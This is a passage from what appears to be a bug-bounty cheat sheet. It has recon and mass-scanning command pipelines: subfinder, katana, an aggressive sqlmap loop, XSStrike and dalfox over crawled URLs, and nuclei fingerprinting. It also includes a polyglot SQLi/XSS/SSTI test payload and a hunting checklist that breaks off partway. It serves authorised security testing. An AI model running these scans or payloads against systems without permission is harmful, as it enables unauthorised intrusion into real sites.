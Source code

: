 ```c
$ subfinder -d <DOMAIN> -silent -all | httpx -silent -threads 100 | katana -d 4 -jc -ef css,png,svg,ico,woff,gif | tee -a <FILE>
$ cat <FILE> | gf sqli | tee -a <FILE>
$ while read line; do sqlmap -u $line --parse-errors --current-db --invalid-logical --invalid-bignum --invalid-string --risk 3; done < <FILE>
```

## Find basic SQL-Injection (SQLi), Cross-Site Scripting (XSS) and Server-Side Template Injection (SSTI) Vulnerabilities with Magic Payload

```c
'"><svg/onload=alert()>{{7*7}}
```

## Find Cross-Site Scripting (XSS) at Scale

### XSStrike

> https://github.com/s0md3v/XSStrike

> https://github.com/lc/gau

> https://github.com/projectdiscovery/katana

```c
$ echo <DOMAIN> | gau | while read url; do python3 xsstrike.py -u $url --crawl -l 4 -d 5; done
$ echo <DOMAIN> | katana | while read url; do python3 xsstrike.py -u $url --crawl -l 4; done
```

```c
$ subfinder -d <DOMAIN> -all -silent | httpx -silent | katana -silent | Gxss -c 100 | dalfox pipe --skip-bav --skip-mining-all --skip-grepping
```

## Fingerprinting with Shodan and Nuclei

```c
$ shodan domain <DOMAIN> | awk '{print $3}' | httpx -silent | nuclei -t /PATH/TO/TEMPLATES/nuclei-templates/
```

## Hunting Checklist

### Domains

1. Find Subdomains
2. Check `CNAME Records` of those subdomains and check for `Subdomain Takeover`
* Use `WaybackUrls` for URLs
3. Use `MassScan` for `Port Scanning`
4. Do `Github` recon

### Web Applications
